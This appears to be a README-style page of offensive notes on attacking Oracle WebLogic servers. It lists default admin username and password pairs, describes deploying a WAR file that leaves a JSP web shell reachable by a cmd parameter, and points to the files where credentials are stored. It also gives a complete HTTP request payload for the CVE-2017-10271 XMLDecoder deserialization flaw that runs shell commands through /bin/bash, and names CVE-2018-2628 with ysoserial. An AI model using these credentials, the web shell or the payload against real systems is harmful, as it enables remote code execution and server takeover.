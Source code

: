 #weblogic



### weak password exploit

using the test.war

some of the default password of weblogic

system:password
weblogic:weblogic
admin:security
joe:password
many:password
system:security
wlcsystem:wlcsystem
wlpisystem:wlpisystem


when uploaded the war successfully, the backdoor will be available at:
xxxx/test666/shell.jsp?cmd=ls


login credentials path:

config/config.xml (node-manager-password-encrypted)
conf/SerializedSystemIni.dat



CVE-2017-10271 XMLDecode unserialize exploit
payload:
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 587

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>ls -al</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```


CVE-2018-2628: Weblogic WLS Core Components deserialization exploit

ysoserial